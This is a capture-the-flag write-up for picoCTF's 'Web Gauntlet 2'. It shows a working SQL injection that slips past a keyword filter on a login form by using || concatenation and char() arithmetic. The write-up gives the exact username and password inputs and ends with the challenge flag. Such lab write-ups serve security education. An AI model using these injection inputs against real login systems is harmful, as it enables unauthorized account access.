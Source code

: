 # **_Web Gauntlet 2_**
## Description
This website looks familiar... Log in as admin Site: `http://mercury.picoctf.net:21336/` Filter: `http://mercury.picoctf.net:21336/filter.php`
## Solution
Try login as a random user, the page gives the sql statement, which makes it easier for us to bypass
>SELECT username, password FROM users WHERE username='test' AND password='test'

The `filter.php` page also lists the filtered characters
>Filters: or and true false union like = > < ; -- /* */ admin

The word `admin` is filtered, we can bypass it by using `||`, which is used for string concatenates in most `RDBMS` 
However the password field is still there, `;` `--` `/* */` are all filtered, so we can neither end the statement nor comment them
`or` and `true false unions` are filtered too so we won't be able to just return `true` for password validation
`Char()` returns the character of the `ascii` code in it, 
```console
sqlite> select char(110);
n
```
Tricky thing, it ignores the string inside
```console
sqlite> select char('asdf');

```
Lets wrap every thing we dont want with `char()` 
> SELECT username, password FROM users WHERE username='admi'||'n'||char(' AND password=')''

This should result in 
```console
sqlite> select 'admi'||'n'||char(' AND password=')'';
admin
```
Which is 
> SELECT username, password FROM users WHERE username=admin

But this didn't work for some reason, I supose that `char(' AND password=')` does return something non-visible, maybe a space, but does affect the `admin` string, so I decided to make it return the letter `n`
Pass in `admi'||char(` for `username` and `-0+110)||'` for `password`
>SELECT username, password FROM users WHERE username='admi'||char(' AND password='-0+110)||''

Which results in
```console
sqlite> select 'admi'||char(' AND password='-0+110)||'';
admin
```
It worked this time, go to `filter.php` and get the flag
```html
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_838ec9084e6e0a65e4632329e7abc585}
?>
```

